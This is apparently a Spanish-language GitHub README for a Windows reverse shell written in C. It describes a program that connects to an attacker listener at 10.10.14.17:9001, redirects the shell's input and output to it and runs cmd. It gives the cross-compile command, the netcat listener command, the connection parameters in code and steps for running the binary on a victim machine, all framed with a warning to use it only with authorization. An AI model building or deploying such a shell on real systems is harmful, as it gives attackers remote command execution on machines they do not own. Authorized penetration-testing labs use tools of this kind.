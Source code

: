 # 🐚 Windows Reverse Shell en C

Este programa en C implementa una **reverse shell** que se conecta a un servidor atacante (listener) a través de TCP y redirige la entrada/salida del sistema a dicho servidor. Está diseñado específicamente para sistemas **Windows**, usando `cmd` como intérprete.

## ⚠️ **Advertencia**

> Esta herramienta debe ser utilizada **exclusivamente en entornos controlados y con autorización explícita**. El uso no autorizado de este tipo de código puede ser **ilegal y punible por ley**.

## 🧠 ¿Qué hace este código?

1. Crea un socket TCP con `socket()`
2. Se conecta a una IP y puerto definidos (`10.10.14.17:9001`)
3. Redirige `stdin`, `stdout` y `stderr` al socket con `dup2()`
4. Ejecuta `cmd` usando `execve()`


## 🧪 Requisitos

- Sistema operativo: Windows
- Compilador compatible (MinGW, x86_64-w64-mingw32-gcc, etc.)
- Listener del lado atacante (por ejemplo: `nc -lvnp 9001`)


## 🔧 Compilación

Usa MinGW para compilarlo en Windows o desde Linux para target Windows:

```bash
x86_64-w64-mingw32-gcc reverse_shell.c -o shell.exe
````

## 🚀 Uso

1. En tu máquina atacante (Kali, Parrot, etc.):

```bash
nc -lvnp 9001
```

2. Ejecuta el binario `shell.exe` en la máquina víctima (simulada o real).

3. Obtendrás una shell inversa con privilegios del proceso.

## ⚙️ Parámetros de conexión

```c
int port = 9001;
revsockaddr.sin_addr.s_addr = inet_addr("10.10.14.17");
```

Cambia estos valores según tu IP y puerto antes de compilar si deseas adaptar la conexión.

## 📦 Archivos

* `reverse_shell.c` – Código fuente principal
* `README.md` – Documentación

## 👨‍💻 Autor

Erick O.
🔗 GitHub: [@NoTrustedx](https://github.com/NoTrustedx)

## 📄 Licencia

MIT License – para uso educativo, investigativo y controlado. **No se permite el uso malicioso.**
